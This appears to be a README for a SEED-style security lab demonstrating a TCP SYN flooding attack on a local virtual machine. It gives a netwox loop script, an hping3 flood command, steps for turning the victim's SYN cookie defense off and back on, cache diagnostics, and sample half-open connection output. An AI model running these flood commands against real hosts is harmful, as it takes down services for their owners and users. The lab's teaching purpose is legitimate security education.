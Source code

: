 ## TCP Syn Flooding Attack Demo

Steps:

1. Attacker: Install netwox on the attacker machine:

```console
$ sudo apt install netwox
```

2. Attacker: Save these lines in a bash script named syn_flood.sh:

```console
for i in {1..10000}; do
  sudo netwox 76 -i 10.0.2.4 -p 23 -s raw
done
```

**Note**: change 10.0.2.4 to the victim server's IP address.

3. Attacker: launch attack:

```console
$ bash syn_flood.sh
```

4. Victim server: disable syn cookie defense:

```console
$ sudo sysctl -w net.ipv4.tcp_syncookies=0
```

5. Victim client: connects to victim server via telent:

```console
$ telent 10.0.2.4
```

If the attack is successful, client will only see this:

```
$ telnet 10.0.2.4
Trying 10.0.2.4...
```

But the connection won't actually be established.

6. Either we stop the attack command, or we enable the syn cookie defense mechanism on the victim server. To stop the attack command, just press control-c on the attacker's terminal console; to enable the syn cookie defense mechanism on the victim server, we run this command on the server side:

```console
$ sudo sysctl -w net.ipv4.tcp_syncookies=1
```

## Diagnose

### If the attack is not successful, one possible reason is TCP cache

A kernel mitigation mechanism. On Ubuntu 20.04, if machine X has never made a TCP connection to the victim machine, when the SYN flooding attack is launched, machine X will not be able to telnet into the victim machine. However, if before the attack, machine X has already made a telnet (or TCP connection) to the victim machine, then X seems to be “immune” to the SYN flooding attack, and can successfully telnet to the victim machine during the attack. It seems that the victim machine remembers past successful connections in its cache, and uses this cache when establishing future connections with the “returning” client. This behavior does not exist in Ubuntu 16.04 and earlier versions.

To view the cache, run this command:

```console
$ ip tcp_metrics show
```

To clear the cache, run this command:

```console
$ ip tcp_metrics flush
```

### Attack still doesn't work?

The SEED labs instructions explains a few other possibilities. See the instructions [here](https://seedsecuritylabs.org/Labs_20.04/Files/TCP_Attacks/TCP_Attacks.pdf).

## Other Useful Commands

1. We can also use this other command to perform a TCP syn flooding attack:

```console
$ sudo hping3 -S -p 23 --flood 10.0.2.4
```

2. To view the half-open connection queue:

```console
$ watch -n 1 "ss -lnt state syn-recv"
```

When the attack is ongoing, this above command should generate out like this:

Every 1.0s: ss -lnt state syn-recv

Recv-Q   Send-Q      Local Address:Port          Peer Address:Port    Process
0        0                10.0.2.4:23          248.145.67.125:3246
0        0                10.0.2.4:23         242.179.218.138:62443
0        0                10.0.2.4:23           249.186.80.68:3355
0        0                10.0.2.4:23         242.237.226.140:55036
0        0                10.0.2.4:23             244.82.7.83:8719
0        0                10.0.2.4:23          249.166.106.74:21504
0        0                10.0.2.4:23         241.181.105.121:22277
0        0                10.0.2.4:23          250.77.236.102:34280
0        0                10.0.2.4:23           253.68.21.228:20031
0        0                10.0.2.4:23            243.1.104.21:5201
